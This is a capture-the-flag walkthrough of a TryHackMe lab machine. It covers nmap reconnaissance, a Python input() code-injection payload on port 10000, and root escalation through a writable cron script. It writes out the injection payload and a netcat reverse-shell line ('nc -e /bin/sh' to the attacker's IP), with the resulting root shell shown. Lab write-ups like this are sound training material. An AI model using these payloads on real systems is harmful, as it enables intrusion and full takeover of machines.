

| Link | Level | Creator |
|------|-------|---------|
| [Here](https://tryhackme.com/room/bsidesgtdevelpy)  | Medium  |  [stuxnet](https://tryhackme.com/p/stuxnet)  |

## Reconn

As usual in the CTFs we ran nmap to see what ports are open

```bash
╰─ lanfran@parrot ❯ map 10.10.46.133                                                                                                                                                       ─╯
[sudo] password for lanfran: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-04 17:21 CEST
Nmap scan report for 10.10.46.133
Host is up (0.10s latency).
Not shown: 998 closed ports
PORT      STATE SERVICE           VERSION
22/tcp    open  ssh               OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 78:c4:40:84:f4:42:13:8e:79:f8:6b:e4:6d:bf:d4:46 (RSA)
|   256 25:9d:f3:29:a2:62:4b:24:f2:83:36:cf:a7:75:bb:66 (ECDSA)
|_  256 e7:a0:07:b0:b9:cb:74:e9:d6:16:7d:7a:67:fe:c1:1d (ED25519)
10000/tcp open  snet-sensor-mgmt?
| fingerprint-strings: 
|   GenericLines: 
|     Private 0days
|     Please enther number of exploits to send??: Traceback (most recent call last):
|     File "./exploit.py", line 6, in <module>
|     num_exploits = int(input(' Please enther number of exploits to send??: '))
|     File "<string>", line 0
|     SyntaxError: unexpected EOF while parsing
|   GetRequest: 
|     Private 0days
|     Please enther number of exploits to send??: Traceback (most recent call last):
|     File "./exploit.py", line 6, in <module>
|     num_exploits = int(input(' Please enther number of exploits to send??: '))
|     File "<string>", line 1, in <module>
|     NameError: name 'GET' is not defined
|   HTTPOptions, RTSPRequest: 
|     Private 0days
|     Please enther number of exploits to send??: Traceback (most recent call last):
|     File "./exploit.py", line 6, in <module>
|     num_exploits = int(input(' Please enther number of exploits to send??: '))
|     File "<string>", line 1, in <module>
|     NameError: name 'OPTIONS' is not defined
|   NULL: 
|     Private 0days
|_    Please enther number of exploits to send??:
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port10000-TCP:V=7.91%I=7%D=7/4%Time=60E1D1FC%P=x86_64-pc-linux-gnu%r(NU
SF:LL,48,"\r\n\x20\x20\x20\x20\x20\x20\x20\x20Private\x200days\r\n\r\n\x20
SF:Please\x20enther\x20number\x20of\x20exploits\x20to\x20send\?\?:\x20")%r
SF:(GetRequest,136,"\r\n\x20\x20\x20\x20\x20\x20\x20\x20Private\x200days\r
SF:\n\r\n\x20Please\x20enther\x20number\x20of\x20exploits\x20to\x20send\?\
SF:?:\x20Traceback\x20\(most\x20recent\x20call\x20last\):\r\n\x20\x20File\
SF:x20\"\./exploit\.py\",\x20line\x206,\x20in\x20<module>\r\n\x20\x20\x20\
SF:x20num_exploits\x20=\x20int\(input\('\x20Please\x20enther\x20number\x20
SF:of\x20exploits\x20to\x20send\?\?:\x20'\)\)\r\n\x20\x20File\x20\"<string
SF:>\",\x20line\x201,\x20in\x20<module>\r\nNameError:\x20name\x20'GET'\x20
SF:is\x20not\x20defined\r\n")%r(HTTPOptions,13A,"\r\n\x20\x20\x20\x20\x20\
SF:x20\x20\x20Private\x200days\r\n\r\n\x20Please\x20enther\x20number\x20of
SF:\x20exploits\x20to\x20send\?\?:\x20Traceback\x20\(most\x20recent\x20cal
SF:l\x20last\):\r\n\x20\x20File\x20\"\./exploit\.py\",\x20line\x206,\x20in
SF:\x20<module>\r\n\x20\x20\x20\x20num_exploits\x20=\x20int\(input\('\x20P
SF:lease\x20enther\x20number\x20of\x20exploits\x20to\x20send\?\?:\x20'\)\)
SF:\r\n\x20\x20File\x20\"<string>\",\x20line\x201,\x20in\x20<module>\r\nNa
SF:meError:\x20name\x20'OPTIONS'\x20is\x20not\x20defined\r\n")%r(RTSPReque
SF:st,13A,"\r\n\x20\x20\x20\x20\x20\x20\x20\x20Private\x200days\r\n\r\n\x2
SF:0Please\x20enther\x20number\x20of\x20exploits\x20to\x20send\?\?:\x20Tra
SF:ceback\x20\(most\x20recent\x20call\x20last\):\r\n\x20\x20File\x20\"\./e
SF:xploit\.py\",\x20line\x206,\x20in\x20<module>\r\n\x20\x20\x20\x20num_ex
SF:ploits\x20=\x20int\(input\('\x20Please\x20enther\x20number\x20of\x20exp
SF:loits\x20to\x20send\?\?:\x20'\)\)\r\n\x20\x20File\x20\"<string>\",\x20l
SF:ine\x201,\x20in\x20<module>\r\nNameError:\x20name\x20'OPTIONS'\x20is\x2
SF:0not\x20defined\r\n")%r(GenericLines,13B,"\r\n\x20\x20\x20\x20\x20\x20\
SF:x20\x20Private\x200days\r\n\r\n\x20Please\x20enther\x20number\x20of\x20
SF:exploits\x20to\x20send\?\?:\x20Traceback\x20\(most\x20recent\x20call\x2
SF:0last\):\r\n\x20\x20File\x20\"\./exploit\.py\",\x20line\x206,\x20in\x20
SF:<module>\r\n\x20\x20\x20\x20num_exploits\x20=\x20int\(input\('\x20Pleas
SF:e\x20enther\x20number\x20of\x20exploits\x20to\x20send\?\?:\x20'\)\)\r\n
SF:\x20\x20File\x20\"<string>\",\x20line\x200\r\n\x20\x20\x20\x20\r\n\x20\
SF:x20\x20\x20\^\r\nSyntaxError:\x20unexpected\x20EOF\x20while\x20parsing\
SF:r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 148.76 seconds
```
We found the port 10000 open, so we used `netcat` to see whats inside.

```bash
╰─ lanfran@parrot ❯ nc 10.10.46.133 10000                                                                                          ─╯

        Private 0days

 Please enther number of exploits to send??: hello?
Traceback (most recent call last):
  File "./exploit.py", line 6, in <module>
    num_exploits = int(input(' Please enther number of exploits to send??: '))
  File "<string>", line 1
    hello?
         ^
SyntaxError: unexpected EOF while parsing

```
It’s a python file running!


## Foothold - User

Maybe we can use some python code to do RCE.

```bash

╰─ lanfran@parrot ❯ nc 10.10.46.133 10000                                                                                         

        Private 0days

 Please enther number of exploits to send??: __import__('os').system('ls -la; pwd')
total 324
drwxr-xr-x 4 king king   4096 Aug 27  2019 .
drwxr-xr-x 3 root root   4096 Aug 25  2019 ..
-rw------- 1 root root   2929 Aug 27  2019 .bash_history
-rw-r--r-- 1 king king    220 Aug 25  2019 .bash_logout
-rw-r--r-- 1 king king   3771 Aug 25  2019 .bashrc
drwx------ 2 king king   4096 Aug 25  2019 .cache
-rwxrwxrwx 1 king king 272113 Aug 27  2019 credentials.png
-rwxrwxrwx 1 king king    408 Aug 25  2019 exploit.py
drwxrwxr-x 2 king king   4096 Aug 25  2019 .nano
-rw-rw-r-- 1 king king      5 Jul  4 08:23 .pid
-rw-r--r-- 1 king king    655 Aug 25  2019 .profile
-rw-r--r-- 1 root root     32 Aug 25  2019 root.sh
-rw-rw-r-- 1 king king    139 Aug 25  2019 run.sh
-rw-r--r-- 1 king king      0 Aug 25  2019 .sudo_as_admin_successful
-rw-rw-r-- 1 king king     33 Aug 27  2019 user.txt
-rw-r--r-- 1 root root    183 Aug 25  2019 .wget-hsts
/home/king

Exploit started, attacking target (tryhackme.com)...
```

Yes! It’s possible, let’s use it to get a reverse shell.



Good! We are the user _King_ and we can get the credentials of this user from the `credentials.png` file, but it’s not necessary.

```bash
king@ubuntu:~$ ls -la
ls -la
total 324
drwxr-xr-x 4 king king   4096 Aug 27  2019 .
drwxr-xr-x 3 root root   4096 Aug 25  2019 ..
-rw------- 1 root root   2929 Aug 27  2019 .bash_history
-rw-r--r-- 1 king king    220 Aug 25  2019 .bash_logout
-rw-r--r-- 1 king king   3771 Aug 25  2019 .bashrc
drwx------ 2 king king   4096 Aug 25  2019 .cache
-rwxrwxrwx 1 king king 272113 Aug 27  2019 credentials.png
-rwxrwxrwx 1 king king    408 Aug 25  2019 exploit.py
drwxrwxr-x 2 king king   4096 Aug 25  2019 .nano
-rw-rw-r-- 1 king king      5 Jul  4 08:26 .pid
-rw-r--r-- 1 king king    655 Aug 25  2019 .profile
-rw-r--r-- 1 root root     32 Aug 25  2019 root.sh
-rw-rw-r-- 1 king king    139 Aug 25  2019 run.sh
-rw-r--r-- 1 king king      0 Aug 25  2019 .sudo_as_admin_successful
-rw-rw-r-- 1 king king     33 Aug 27  2019 user.txt
-rw-r--r-- 1 root root    183 Aug 25  2019 .wget-hsts
king@ubuntu:~$ cat user.txt
cat user.txt
c[REDACTED]9
```
## Root

To escalate to root, we digged into the machine, and found that root is running a cron job with the file `root.sh` inside `/home/king`

```bash
king@ubuntu:~$ ls -la root.sh
-rw-r--r-- 1 root root     32 Aug 25  2019 root.sh
```
So we modified that file to get a reverse shell.
But first we need to rename the original file to `root.sh.old`, because we can not edit ìt.
After doing that, we added the reverse shell code, and after a minute or so we get our reverse shell with root!

```bash
king@ubuntu:~$ echo "nc -e /bin/sh 10.9.6.21 1338" > root.sh
bash: root.sh: Permission denied
king@ubuntu:~$ mv root.sh root.sh.old
king@ubuntu:~$ echo "nc -e /bin/sh 10.9.6.21 1338" > root.sh
king@ubuntu:~$ cat root.sh
nc -e /bin/sh 10.9.6.21 1338
```

```bash
╰─ lanfran@parrot ❯ nc -nlvp 1338                                                                                                  ─╯
listening on [any] 1338 ...
connect to [10.9.6.21] from (UNKNOWN) [10.10.46.133] 38252
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
cat /root/root.txt
9[REDACTED]c
```

And we rooted the machine!

That's all from my side, hope you find this helpful!